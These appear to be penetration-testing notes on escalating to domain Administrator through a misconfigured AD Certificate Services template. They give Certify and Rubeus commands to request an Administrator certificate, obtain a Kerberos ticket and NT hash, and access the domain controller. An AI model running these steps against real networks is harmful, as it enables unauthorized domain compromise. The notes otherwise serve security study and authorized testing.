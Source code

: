 ```yaml
---
title: Windows Server privilege-escalation notes
---
```


## AD Certificate Services
Being within AD domain where the AD CS is installed, a domain user can request a X.509 certificate for different purposes (including AD authentication via PKINIT feature). AD CS has admin-defined **Certificate Templates** that specify available parameters and values of a requested certificate.

Most important values:

* CA Name - which server is the Certified Authority for the cert.
* Template Name - the name of the cert template.
* Enrollment Rights - who can request (which group of users) such a cert.
* PKI Extended Key Usage - what's the purpose of the cert.

`Certify` is a tool to enumerate and abuse misconfiguration in AD CS (vulnerable certificate templates).

```powershell
# Check possible vulnerabilities in AD certificates
Certify.exe find /vulnerable
```

If any user can enroll this certificate (e.g. _Domain Users_ group), its purpose is defined as _Client Authentication_ (an user can auth to AD using this cert) and ENROLLEE_SUPLIES_SUBJECT flag is set (subject of the cert is defined by enrollee)... **privilege escalation**! Any user can enroll the certificate for Administrator and use it to perform AD authentication.

```powershell
# Request an certificate for Administrator
Certify.exe request /ca:<ca-name> /template:<template-name> /altname:Administrator

# Request Kerberos TGT using the received certificate
Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx> /password:password /ptt

# Check if privilege escalation works (it might not work but look for NT hash)
dir \\<dc>\C$
```

Requesting TGT using the certificate (with `Rubeus`) should return user's NT hash that can be use to **pass-the-hash** (if PKINIT is enabled). It uses so-called user-to-user (u2u) auth - the user authenticates to itself using Kerberos and retrieves its NT hash.

**NOTE**: Certify.exe returns a `PEM` format certificate. It must be converted into the `PFX` format to use it with `Rubeus`:

```bash
openssl pkcs12 -in <cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <cert.pfx>
```

> **RESOURCES**: [Awesome BlackHat explanation](https://www.youtube.com/watch?v=ejmAIgxFRgM), [corresponding blog post](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

Most `impacket` tools are able to work with TGT authentication.
